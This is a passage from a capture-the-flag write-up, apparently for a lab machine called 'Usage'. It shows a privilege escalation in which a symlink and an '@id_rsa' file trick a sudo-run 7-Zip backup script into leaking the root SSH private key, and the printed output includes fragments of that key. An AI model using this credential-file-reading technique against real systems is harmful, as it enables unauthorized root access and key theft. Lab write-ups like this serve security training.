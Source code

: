 We got the flag, but let's get a root shell.

We saw earlier that `dash` has a private key, let's hope it's the same for root.

```bash
xander@usage:/var/www/html$ touch @id_rsa                                                                                                                
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa                                                                                               
xander@usage:/var/www/html$ sudo /usr/bin/usage_management                                                                                               
Choose an option:                                                                                                                                        
1. Project Backup                                                                                                                                        
2. Backup MySQL data                                                                                                                                     
3. Reset admin password                                                                                                                                  
Enter your choice (1/2/3): 1                                                                                                                             
                                                                                                                                                         
7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21                                                                                  
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)        
                                                                                                                                                         
Open archive: /var/backups/project.zip                                                                                                                   
--                                                                                                                                                       
Path = /var/backups/project.zip                                                                                                                          
Type = zip                                                                                                                                               
Physical Size = 54855145                                                                                                                                 
                                                                                                                                                         
Scanning the drive:                                                                                                                                      
                                                                                                                                                         
WARNING: No more files                                                                                                                                   
-----BEGIN OPENSSH PRIVATE KEY-----                                                                                                                      
                                                                                                                                                         
                                                                                                                                                         
WARNING: No more files                                                                                                                                   
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW                                                                                   
                                                                                                                                                         
                                                                                                                                                         
WARNING: No more files                                                                                                                                   
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi                                                                                   
                                                                                                                                                         
                                                                                                                                                         
WARNING: No more files                                                                                                                                   
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q                                                                                   
                                                                                                                                                         
                                                                                                                                                         
```